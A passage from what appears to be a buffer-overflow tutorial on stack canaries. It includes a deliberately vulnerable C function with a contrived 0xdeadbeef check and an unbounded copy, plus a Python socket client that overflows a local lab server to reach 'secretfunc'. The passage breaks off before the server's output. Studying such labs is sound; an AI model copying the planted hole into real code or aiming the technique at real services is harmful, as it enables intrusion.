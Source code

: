 We can see the `secretfunc` was executed several times, before the program crashed.




# Stack canaries (contrived example)

A popular buffer overflow prevention technique employed by some programs.

> Used to detect a stack buffer overflow before execution of malicious code can occur, by placing a small integer, the value of which is randomly chosen at program start, in memory just before the stack return pointer. Most buffer overflows overwrite memory from lower to higher memory addresses, so in order to overwrite the return pointer, the canary value must also be overwritten. This value is checked to make sure it has not changed before a routine uses the return pointer on the stack. This technique can greatly increase the difficulty of exploiting a stack buffer overflow because it forces the attacker to gain control of the instruction pointer by corrupting other important variables on the stack.

In a nutshell involves validating the value of variables on the stack. Here is a concrete example of a stack canary:

    void overflowme(char *str) {
        unsigned int val;
        char buf[4] = {0};
    
        memorycopy(buf, str, 16);
        printf("  [+] val=%x\n", val);
        if (val == 0xdeadbeef) {
            strcopy(buf, str);
        }
    }

If the `0xdeadbeef` check fails, the overflow can't be triggered. Running the server:

    # ./bin/server
    [+] Server is starting...
    [+] Server is now listening on 8888
    [+] secretfunc is @ 0x8048d83
    [+] Awaiting clients...

To trigger `secretfunc` using by overflowing the stack, need to also now also get pass the `0xdeadbeef` check.

Using our trusty python client, let overflow the 4 byte buffer, by filling it with 8 bytes:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 8888))
buf="ABCDEFGH"
s.send(buf)
```

The output of the vulnerable server program:
